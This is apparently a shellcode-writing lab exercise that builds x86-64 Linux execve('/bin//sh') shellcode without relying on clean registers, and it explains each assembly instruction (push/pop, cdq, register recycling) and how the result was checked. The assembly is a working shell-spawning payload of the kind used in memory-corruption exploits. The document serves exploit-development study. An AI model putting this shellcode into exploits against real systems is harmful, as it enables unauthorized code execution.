

# Lab 06.1 — Dirty Context execve (Register Recycling)

### Goal

Build `execve("/bin//sh", 0, 0)` **without assuming clean registers**.
No blanket zeroing. Reuse side-effects and existing zeroes.

---

### Initial assumptions

* Registers may contain garbage at entry
* Stack is writable
* Syscall ABI is standard Linux x86-64

No assumptions about registers being zero.

---

### Core idea

Instead of clearing registers with `xor`, reuse effects of previous instructions.

* Use `push/pop` to load syscall number
* Use `cdq` to zero `rdx` as a side-effect
* Recycle that zero into `rsi`
* Use stack to build arguments

---

### Instruction reasoning

```asm
push 59
pop rax
```

Load syscall number without `mov`.

```asm
cdq
```

Sign-extend `eax` into `edx`.
Since `eax = 59`, result is `edx = 0`.
On x86-64, writing `edx` clears `rdx`.

```asm
push rdx
pop rsi
```

Recycle the known zero in `rdx` into `rsi` (`argv = NULL`).

```asm
push rsi
```

Push NULL terminator for string / envp.

```asm
mov rbx, 0x68732f2f6e69622f
push rbx
```

Place `/bin//sh` on stack.

```asm
mov rdi, rsp
```

Point `rdi` to `/bin//sh`.

```asm
syscall
```

Invoke `execve`.

---

### Final register state before syscall

* `rax = 59` (execve)
* `rdi = rsp` → `/bin//sh`
* `rsi = 0`
* `rdx = 0`

Matches syscall ABI exactly.

---

### What was **avoided**

* No `xor reg, reg`
* No `mov reg, 0`
* No assumptions about initial register values

---

### Verification

* Registers were manually dirtied before execution
* Stack inspected before syscall
* `/bin//sh\0` confirmed at `rsp`
* Registers confirmed at syscall boundary

Execution successful.

---

### Notes

* `cdq` depends on `eax` sign — safe here because syscall number is small and positive
* This is a baseline dirty-context shellcode
* Immediate string still allowed in this lab (will be removed later)

---


